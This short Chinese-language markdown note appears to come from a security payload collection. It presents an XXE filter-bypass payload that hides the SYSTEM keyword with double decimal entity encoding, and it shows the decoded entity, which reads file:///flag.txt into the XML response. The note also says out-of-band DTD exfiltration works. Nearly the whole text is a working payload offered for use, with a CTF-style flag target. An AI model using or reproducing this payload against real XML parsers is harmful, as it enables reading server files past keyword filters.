 ```yaml
---
title: XXE绕过Payload
---
```

# XXE绕过Payload

添加一组xxe绕过的payload

当只过滤了SYSTEM，PUBLIC等关键字时，可用双重实体编码绕过

```
<?xml version="1.0"?>

<!DOCTYPE GVI [

    <!ENTITY % xml "&#60;&#33;&#69;&#78;&#84;&#73;&#84;&#89;&#32;&#120;&#120;&#101;&#32;&#83;&#89;&#83;&#84;&#69;&#77;&#32;&#34;&#102;&#105;&#108;&#101;&#58;&#47;&#47;&#47;&#102;&#108;&#97;&#103;&#46;&#116;&#120;&#116;&#34;&#32;&#62;&#93;&#62;&#10;&#60;&#99;&#111;&#114;&#101;&#62;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#60;&#109;&#101;&#115;&#115;&#97;&#103;&#101;&#62;&#38;&#120;&#120;&#101;&#59;&#60;&#47;&#109;&#101;&#115;&#115;&#97;&#103;&#101;&#62;&#10;&#60;&#47;&#99;&#111;&#114;&#101;&#62;">

    %xml;
```

即为在xml实体中再定义一次xml，可成功被解析，支持dtd数据外带

```
<!ENTITY xxe SYSTEM "file:///flag.txt" >]>
<core>
      <message>&xxe;</message>
</core>
```

以上为编码部分内容

